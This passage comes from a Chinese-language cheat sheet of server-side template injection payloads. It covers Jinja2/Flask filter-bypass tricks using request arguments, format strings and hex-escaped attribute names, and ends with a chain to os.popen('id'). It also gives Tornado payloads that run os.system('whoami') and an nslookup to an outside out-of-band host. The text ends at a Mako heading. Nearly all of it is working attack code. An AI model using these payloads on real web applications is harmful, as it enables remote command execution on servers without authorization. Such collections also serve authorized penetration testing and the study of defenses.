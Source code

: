 ```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

绕过`[`和`]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
或
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

绕过`|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

通过[@SecGus](https://twitter.com/SecGus)绕过大多数常见过滤器（'.','_','|join','[',']','mro'和'base'）：

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Tornado

### Tornado - 基础注入

```python
{{7*7}}
{{7*'7'}}
```

### Tornado - 远程命令执行

```python
{{os.system('whoami')}}
{%import os%}{{os.system('nslookup oastify.com')}}
```

---

## Mako
